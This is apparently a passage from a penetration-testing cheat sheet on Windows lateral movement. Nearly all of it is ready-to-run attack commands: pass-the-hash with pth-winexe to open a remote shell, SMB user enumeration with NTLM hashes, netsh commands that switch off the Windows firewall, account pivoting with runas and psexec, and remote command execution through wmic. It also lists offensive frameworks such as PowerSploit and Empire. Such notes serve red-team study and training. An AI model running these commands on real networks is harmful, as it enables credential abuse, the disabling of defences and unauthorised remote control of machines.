 * View Kali modded tools for passing the hash
``` sh
ls /usr/bin/pth-*
```

* Passing the hash to open a remote shell
``` bat
pth-winexe -U <domain>/<username>%<ntlm> //<target> cmd.exe
```

* SMB enumeration using hashed credentials
``` sh
nmap -p U:137,T:139 --script=smb-enum-groups,smb-enum-users --script-args 'smbuser=<username>,smbhash=<lmhash>' <ip>
```


## Windows Network Manipulation / Exploitation

* Exploitation frameworks
  * [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
  * [Nishang](https://github.com/samratashok/nishang)
  * [Merlin](https://github.com/Ne0nd0g/merlin)
  * [Empire](https://github.com/EmpireProject/Empire)

* Disabling the firewall
``` bat
:: newer Windows versions
netsh advfirewall set allprofiles state off

:: older Windows versions
netsh firewall set opmode disable
```

* Pivoting accounts
``` bat
:: open a new shell with a new kerberos logonid valid on the domain
:: `/netonly` option allows us to authenticate as domain user a non-domain-joined machine
runas /netonly /user:<domain>\<username> "cmd.exe"

:: check kerberos logonid
klist

:: spawn a shell as a new user
.\psexec.exe -accepteula -nobanner \\<ip> -u <domain>\<username> -p <password> cmd.exe
```

* `wmic` querying and command execution
``` bat
:: discover local administrators on a remote machine
wmic /node:<node> path win32_groupuser where (groupcomponent="win32_group.name=\"administrators\",domain=\"<domain>\"")

:: see who is logged on a machine
wmic /node:<node> path win32_loggedonuser get antecedent

:: remote command execution
wmic /node:<node> /user:<domain>\<user> path win32_process call create "<cmd>"
```
